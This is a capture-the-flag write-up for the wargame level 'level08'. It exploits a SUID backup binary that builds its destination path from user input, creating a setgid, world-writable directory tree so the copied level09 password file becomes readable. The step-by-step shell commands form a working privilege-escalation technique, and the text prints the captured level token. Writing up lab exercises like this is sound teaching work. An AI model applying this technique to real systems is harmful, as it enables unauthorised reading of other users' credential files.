 # level08

1. Overview

   * The binary naïvely builds the destination path as `"./backups/" + argv[1]` and copies the source file there using:

     ```c
     open(dst, O_WRONLY | O_CREAT | O_EXCL, 0660);
     ```
   * Because it is **SUID level09**, it can **read** `/home/users/level09/.pass` and then **create** the destination file under `./backups/...` with its own UID/GID.
   * Supplying an **absolute path** as argument makes the destination `./backups//home/users/level09/.pass`. The only reason it fails at first is that the intermediate directories under `./backups/` do not exist yet.
   * Files are created with mode **0660** (subject to umask). With the right directory setup, you can make the copied file group‑readable by **your** group.

2. Attack plan (why it works)

   * Create the missing directory tree under `./backups/` that mirrors the absolute path.
   * Set the **setgid** bit on those directories so newly created files inherit the **directory's group** (your group), not level09's.
   * Ensure the directories are world‑writable so the SUID program can create the file there.
   * Run the program with the absolute path; it will copy the secret using its privileges, but the resulting file's **group** will be yours and the **mode** includes group read → you can read the token.

3. Step‑by‑step

```bash
cd /home/users/level08

# 1) Create the directory tree that matches the absolute path under ./backups/
mkdir -p backups/home/users/level09

# 2) Set setgid (+s on group) and make the dirs writable for everyone
#    New files will inherit the directory's group
chmod 2777 backups backups/home backups/home/users backups/home/users/level09 #optionnal

# 3) Run the SUID binary with the absolute source path
/home/users/level08/level08 /home/users/level09/.pass

# If it worked, the copy now exists with your group
ls -l backups/home/users/level09/.pass
# expected: -rw-rw---- 1 level09 <your-group> ... backups/home/users/level09/.pass

# 4) Read the token
cat backups/home/users/level09/.pass
```

4. Notes & pitfalls

* **Mode 0660 and umask**: the effective mode is `0660 & ~umask`. Typical umasks (002 or 022) still leave **group‑read** set, so you can read the file via your group.
* **No symlinks required**: we rely only on the path concatenation; no need for races or symlink tricks here.
* **Why setgid matters**: without setgid, the file would keep level09's **group**, and with `0660` you'd be locked out.
* **World‑writable dirs**: the SUID program must be able to create the path under `./backups/`; `2777` on each component is the pragmatic choice in this lab setting.

5. Token

Token found `fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S`
